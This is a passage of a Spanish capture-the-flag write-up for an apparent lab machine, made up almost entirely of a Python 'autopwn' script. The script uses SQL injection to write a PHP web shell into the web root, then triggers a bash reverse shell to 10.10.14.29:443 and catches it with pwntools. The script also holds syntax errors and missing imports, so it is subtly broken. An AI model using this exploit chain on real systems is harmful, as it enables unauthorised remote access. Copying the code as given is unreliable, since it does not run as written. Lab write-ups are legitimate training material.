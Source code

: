 ## Vuln exploit & Gaining Access {-}

### Ganando acceso con el autopwn {-}

```python
#!/usr/bin/python

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

if len(sys.argv != 3:
    log.failure("Uso: %s <ip-address> filename" % sys.argv[0]
    sys.exit(1)

#Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 443

def createFile():

    data_post = {
        'username': 'caa',
        'country': """Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/%s-- -""" % (filename)
    }

    r = requests.post(main_url, data=data_post)

def getAccess():
    data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.29/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data=data_post

if __name__ == '__main__':
    createFile()
    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))
    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

 lanzamos el script

```bash
python autopwn.py 10.10.11.116 setenso.php
```

Y ganamos acceso a la maquina. Como usuario www-data podemos leer la flag.

